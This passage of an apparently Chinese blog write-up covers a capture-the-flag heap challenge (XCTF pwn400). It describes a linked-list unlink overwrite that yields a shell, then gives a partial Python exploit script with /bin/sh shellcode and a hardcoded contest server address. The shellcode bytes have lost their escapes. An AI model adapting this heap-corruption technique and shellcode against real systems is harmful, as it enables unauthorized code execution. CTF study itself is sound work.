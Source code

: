 <p style="text-indent: 2em;">
  先是3次new note，构建一个3个note的链表，然后show note查看这些note的地址，计算出需要的payload后，通过edit note修改第一个note，溢出改掉第二个note的prev和next指针，最后调用delete note删除第二个note，就可以成功拿到shell。
</p>

<p style="text-indent: 2em;">
  只能说，这次的PWN真的就是三种类型的基础题一样一个，不过把一个最水的放最后，我也是醉了……
</p>

<p style="line-height: 16px; text-indent: 2em;">
  <img src="http://geekjayvic.sinaapp.com/wp-content/plugins/wp-ueditor2/ueditor/dialogs/attachment/fileTypeImages/icon_rar.gif" /><a href="http://geekjayvic-wordpress.stor.sinaapp.com/uploads/2015/01/pwn400.zip">pwn400.zip</a>
</p>

* * *

<p style="line-height: 16px; text-indent: 2em;">
  XCTF上了个OJ，把之前的比赛题又<a href="http://oj.xctf.org.cn/problems/15" target="_blank">架了起来</a>，于是将代码重写了下：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python
#encoding:utf-8

import&nbsp;zio
from&nbsp;time&nbsp;import&nbsp;sleep

def&nbsp;NOPS(n):
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;&#39;x90&#39;&nbsp;*&nbsp;n

def&nbsp;PADDING(s,&nbsp;n):
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;s&nbsp;+&nbsp;NOPS(n&nbsp;-&nbsp;len(s))

#&nbsp;TARGET&nbsp;=&nbsp;&#39;./pwn400&#39;
TARGET&nbsp;=&nbsp;(&#39;218.2.197.235&#39;,&nbsp;10103)

DELAY&nbsp;=&nbsp;0.1
JMP06&nbsp;=&nbsp;&#39;xebx06&#39;
SHELLCODE&nbsp;=&nbsp;"jx0bXx991xc9Rh//shh/binx89xe3xcdx80"

NOTE_SIZE&nbsp;=&nbsp;0x170
CONTENT_OFFSET&nbsp;=&nbsp;108
WRITE_GOT&nbsp;=&nbsp;0x0804a478

def&nbsp;RAW_WITH_DELAY(s):
&nbsp;&nbsp;&nbsp;&nbsp;sleep(DELAY)
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;str(s)


#&nbsp;create&nbsp;three&nbsp;new&nbsp;notes
io&nbsp;=&nbsp;zio.zio(TARGET,&nbsp;print_write=RAW_WITH_DELAY,&nbsp;print_read=True)
for&nbsp;i&nbsp;in&nbsp;xrange(3):
&nbsp;&nbsp;&nbsp;&nbsp;io.writelines([&#39;1&#39;,&nbsp;str(i),&nbsp;str(i),&nbsp;str(i)])
io.read_until_timeout()

#&nbsp;get&nbsp;address&nbsp;of&nbsp;the&nbsp;new&nbsp;notes
io.writelines([&#39;3&#39;,&nbsp;&#39;0&#39;])
io.read_until(&#39;location:0x&#39;)
first_note&nbsp;=&nbsp;int(io.readline(),&nbsp;16)
second_note&nbsp;=&nbsp;first_note&nbsp;+&nbsp;NOTE_SIZE
